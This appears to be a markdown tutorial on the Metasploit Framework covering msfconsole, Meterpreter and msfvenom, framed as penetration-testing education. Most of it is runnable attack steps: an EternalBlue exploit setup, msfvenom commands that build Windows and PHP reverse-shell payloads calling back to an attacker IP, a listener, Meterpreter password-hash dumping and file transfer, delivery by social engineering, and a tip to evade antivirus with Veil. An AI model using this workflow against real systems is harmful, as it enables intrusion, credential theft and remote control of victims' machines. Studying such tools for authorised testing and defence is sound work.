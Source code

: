 ```markdown
# Metasploit, Meterpreter, msfconsole, and msfvenom: Easy Examples and Explanations

The Metasploit Framework is a powerful tool for penetration testing, offering modules for exploitation, payload generation, and post-exploitation activities. This document provides an overview of Metasploit, including its key components: `msfconsole`, `msfvenom`, and `meterpreter`, with easy-to-follow examples.

---

## What is Metasploit?

Metasploit is an open-source penetration testing framework that helps security professionals identify, exploit, and validate vulnerabilities in systems and applications.

### Key Features
- Exploitation of known vulnerabilities.
- Payload generation for delivering malicious code.
- Post-exploitation tools for maintaining access and gathering information.

---

## msfconsole: The Metasploit Command-Line Interface

`msfconsole` is the primary command-line interface for interacting with the Metasploit Framework.

### Example: Starting msfconsole
1. **Command**:
   ```bash
   msfconsole
   ```
2. **Output**:
   ```plaintext
   Metasploit Framework Console
   msf6 >
   ```
3. **Use Case**:
   - Launch the Metasploit Framework to search for exploits, configure payloads, and execute attacks.

---

### Example: Searching for Exploits
1. **Command**:
   ```plaintext
   search ms17_010
   ```
2. **Output**:
   ```plaintext
   Matching Modules
   =================
   Name                                  Disclosure Date  Rank       Description
   ----                                  ---------------  ----       -----------
   exploit/windows/smb/ms17_010_eternalblue  2017-03-14    excellent  MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   ```
3. **Use Case**:
   - Find exploits related to a specific vulnerability (e.g., MS17-010).

---

### Example: Using an Exploit
1. **Command**:
   ```plaintext
   use exploit/windows/smb/ms17_010_eternalblue
   ```
2. **Set Target and Payload**:
   ```plaintext
   set RHOSTS <target-ip>
   set payload windows/x64/meterpreter/reverse_tcp
   set LHOST <attacker-ip>
   ```
3. **Run the Exploit**:
   ```plaintext
   exploit
   ```
4. **Outcome**:
   - Gain a Meterpreter session on the target machine.

---

## Meterpreter: The Post-Exploitation Tool

Meterpreter is a powerful payload that provides an interactive shell for post-exploitation activities.

### Example: Common Meterpreter Commands
1. **Check System Information**:
   ```plaintext
   meterpreter > sysinfo
   ```
   - **Output**:
     ```plaintext
     Computer        : WIN-MEGA01
     OS              : Windows 10 (Build 19041).
     ```

2. **List Running Processes**:
   ```plaintext
   meterpreter > ps
   ```

3. **Dump Password Hashes**:
   ```plaintext
   meterpreter > hashdump
   ```

4. **Upload a File**:
   ```plaintext
   meterpreter > upload /path/to/file C:\\target\\path
   ```

5. **Download a File**:
   ```plaintext
   meterpreter > download C:\\target\\path /path/to/local
   ```

---

## msfvenom: Payload Generation Tool

`msfvenom` is used to generate payloads for delivering malicious code to a target system.

### Example: Generating a Reverse Shell Payload
1. **Command**:
   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f exe -o shell.exe
   ```
2. **Explanation**:
   - `-p`: Specifies the payload (e.g., `windows/x64/meterpreter/reverse_tcp`).
   - `LHOST`: The attacker's IP address.
   - `LPORT`: The port to listen on.
   - `-f`: Specifies the output format (e.g., `exe` for a Windows executable).
   - `-o`: Specifies the output file name.

3. **Output**:
   ```plaintext
   Payload size: 354 bytes
   Final size of exe file: 73802 bytes
   Saved as: shell.exe
   ```

4. **Use Case**:
   - Deliver the generated payload to the target system for exploitation.

---

### Example: Generating a Web Payload
1. **Command**:
   ```bash
   msfvenom -p php/meterpreter_reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f raw > shell.php
   ```
2. **Explanation**:
   - Generates a PHP reverse shell payload.
3. **Use Case**:
   - Upload the `shell.php` file to a vulnerable web server to gain access.

---

## Practical Workflow: Combining msfvenom, msfconsole, and Meterpreter

### Scenario: Exploiting a Windows Machine
1. **Generate a Payload**:
   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f exe -o shell.exe
   ```

2. **Deliver the Payload**:
   - Use social engineering or a vulnerable service to deliver `shell.exe` to the target machine.

3. **Start msfconsole**:
   ```bash
   msfconsole
   ```

4. **Set Up a Listener**:
   ```plaintext
   use exploit/multi/handler
   set payload windows/x64/meterpreter/reverse_tcp
   set LHOST <attacker-ip>
   set LPORT 4444
   exploit
   ```

5. **Gain a Meterpreter Session**:
   - Once the payload is executed on the target machine, a Meterpreter session will open:
     ```plaintext
     meterpreter >
     ```

6. **Post-Exploitation**:
   - Use Meterpreter commands to gather information, dump credentials, or maintain persistence.

---

## Security Considerations

- **Ethical Use**: Always obtain written permission before using Metasploit or its tools.
- **Detection**: Be aware that antivirus and intrusion detection systems may flag Metasploit payloads.
- **Obfuscation**: Use tools like `Veil` to bypass antivirus detection when generating payloads.

---

By mastering Metasploit, msfconsole, msfvenom, and Meterpreter, you can effectively conduct penetration testing and post-exploitation activities. Always ensure ethical use of these tools.
```
